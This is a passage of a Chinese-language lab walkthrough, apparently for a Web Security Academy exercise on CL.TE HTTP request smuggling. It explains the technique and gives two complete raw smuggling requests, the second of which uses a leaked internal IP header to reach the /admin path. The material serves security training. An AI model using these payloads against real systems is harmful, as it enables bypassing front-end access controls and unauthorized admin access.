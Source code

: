 ![image-20200715163817407](http%E8%B5%B0%E7%A7%81/1594912440.png!small)

并且请求参数中的值能够输出到相应的POST请求中

![image-20200715163859508](http%E8%B5%B0%E7%A7%81/1594912446.png!small)

构造一个走私请求数据包，多次发送在前端中显示了HTTP请求

> 解释一下：走私请求数据包中Content-length: 100，显然自身携带数据没有达到这个数目。
>
> 因而后端服务器会在收到第一个走私请求时会误以为该请求还没有结束，将不断接受新传来的HTTP请求直到长度达到100。
>
> 因此添加在search=test后的HTTP请求也成POST请求的一部分，最终将前端服务器添加的HTTP头显示在页面

```
POST / HTTP/1.1
Host: ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Connection: close
Cookie: session=Udg4bkicRfjM9f2QNx0zP6Z51mcp0cfW
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=test

```

![image-20200715164704552](http%E8%B5%B0%E7%A7%81/1594912457.png!small)

将获取的HTTP头添加到走私请求中，再次发送数据包

```
POST / HTTP/1.1
Host: ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://ac6d1f171e97a40f80a39c2d0050004c.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Connection: close
Cookie: session=Udg4bkicRfjM9f2QNx0zP6Z51mcp0cfW
Upgrade-Insecure-Requests: 1
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-FxStVB-Ip: 175.6.47.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

search=test
```